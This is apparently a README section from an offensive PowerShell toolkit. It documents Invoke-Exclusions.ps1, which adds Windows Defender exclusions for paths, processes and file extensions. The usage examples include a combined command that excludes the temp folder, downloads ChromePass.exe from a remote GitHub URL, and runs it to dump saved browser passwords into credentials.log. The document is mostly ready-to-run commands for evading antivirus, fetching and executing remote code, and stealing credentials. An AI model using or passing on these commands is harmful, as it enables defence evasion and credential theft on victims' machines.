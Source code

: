 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted are : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"


## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```
